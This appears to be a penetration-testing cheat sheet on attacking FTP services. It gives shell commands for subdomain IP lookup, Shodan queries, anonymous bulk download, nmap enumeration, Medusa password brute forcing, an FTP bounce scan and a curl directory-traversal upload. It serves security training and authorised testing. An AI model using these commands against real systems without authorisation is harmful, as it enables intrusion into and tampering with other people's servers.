 # Attacking Common Services

### Getting IPs of web servers
```shell
for i in $(cat subdomainlist);do host $i | grep "has address" | grep $DOMAIN | cut -d" " -f1,4;donev
```

### Server info using Shodan
```shell
for i in $(cat ip-addresses.txt);do shodan host $i;done
```

## FTP

- File Tranfer Protocol, uses TCP Port `21`
- Application layer of the TCP/IP protocol stack
- It is a Clear text protocol and data can be sniffed.
- Trivial File Transfer Protocol (TFTP) is simpler than FTP and performs file transfers between
client and server processes. It does not provide user authentication and other features supported by FTP.
- Dangerous settings include: anonymous login, file upload, create directory, usage of commands
like `STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE`

```shell
# Download a file
get filename
# Download all available files
wget -m --no-passive ftp://anonymous:anonymous@$IP
# Upload file
put local_filename
# When service is using SSL/TLS
openssl s_client -connect $TARGET_IP:21 -starttls ftp
```

- Attacking FTP:

```shell
# Using nmap scripts
sudo nmap -sC -sV -p 21 $TARGET_IP
# Password brute forcing
medusa -u $USERNAME -P $PASSWORD_FILE -h $IP -M ftp
# FTP Bounce Attack
# An FTP bounce attack is a network attack that uses FTP servers
# to deliver outbound traffic to another device on the network. 
# The attacker uses a PORT command to trick the FTP connection 
# into running commands and getting information from a device
# other than the intended server.
nmap -Pn -v -n -p80 -b anonymous:password@$TARGET_IP $INTERNAL_IP
# FTP directory traversal vulnerability
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
